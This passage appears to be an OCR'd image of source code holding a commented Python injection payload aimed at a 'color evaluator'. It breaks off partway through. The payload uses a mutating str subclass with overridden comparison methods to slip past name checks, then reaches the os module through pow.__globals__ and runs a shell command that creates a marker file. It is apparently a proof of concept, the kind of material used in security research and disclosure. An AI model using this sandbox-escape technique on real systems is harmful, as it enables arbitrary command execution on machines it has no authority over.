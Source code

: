     #
    
    # THE INJECTED PYTHON CODE THAT IS PASSED TO THE COLOR EVALUATOR
    
    #[
    
    #    [
    
    #        getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited')
    
    #        for Word in [
    
    #            orgTypeFun(
    
    #                'Word',
    
    #                (str,),
    
    #                {
    
    #                    'mutated': 1,
    
    #                    'startswith': lambda self, x: False,
    
    #                    '__eq__': lambda self, x: self.mutate()
    
    #                    and self.mutated < 0
    
    #                    and str(self) == x,
    
    #                    'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
    
